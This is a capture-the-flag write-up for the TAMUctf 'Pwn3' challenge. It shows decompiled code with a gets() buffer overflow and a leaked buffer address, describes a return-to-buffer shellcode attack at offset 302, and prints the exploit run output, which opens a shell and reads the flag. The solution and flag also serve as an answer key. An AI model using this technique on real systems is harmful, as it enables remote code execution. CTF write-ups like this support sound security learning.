 # Pwn3
Pwn

## Challenge 

nc pwn.tamuctf.com 4323

Difficulty: easy

[pwn3](pwn3)

## Solution

Running on server, we see a pointer

	$ nc pwn.tamuctf.com 4323
	Take this, you might need it on your journey 0xffe744de!
	

Decompile in Hopper

	int main(int arg0) {
	    __x86.get_pc_thunk.ax();
	    sub_440();
	    echo();
	    return 0x0;
	}

	void sub_440() {
	    (*(ebx + 0x18))(); // setvbuf
	}
	void sub_410() {
	    (*(ebx + 0xc))(); // printf
	}
	void sub_420() {
	    (*(ebx + 0x10))(); // gets
	}

	int echo() {
	    eax = __x86.get_pc_thunk.bx();
	    stack[1966] = &var_12A;    // Buffer Pointer
	    stack[1965] = ebx + 0x104; // "Take this, you might need it on your journey %p!"
	    eax = sub_410();           // printf
	    stack[1965] = &var_12A;    // Buffer Pointer
	    eax = sub_420();           // gets
	    esp = ((esp - 0x10) + 0x10 - 0x10) + 0x10;
	    ebx = var_4;
	    return eax;
	}

---

From `echo()`, we understand that:

1. `gets()` is vulnerable to buffer overflow
2. the pointer is the beginning of the buffer

With this, we can execute a return-to-buffer shellcode attack.

Using pwn cyclic, we get the offset of 302.

> I refer to some code from here: http://ctfhacker.com/ctf/pwnable/2015/08/05/polictf-johns-library.html

And created an exploit script using pwntools..

	# python solve.py 
	[*] Starting
	[+] Opening connection to pwn.tamuctf.com on port 4323: Done
	[*] Leaking buffer
	[*] Found address: 0xffc7f9be
	[*] Preparing shellcode
	[*] Sending shellcode
	[*] Switching to interactive mode

	$ ls
	flag.txt
	pwn3
	$ cat flag.txt
	gigem{r3m073_fl46_3x3cu710n}
	$  

## Flag

	gigem{r3m073_fl46_3x3cu710n}
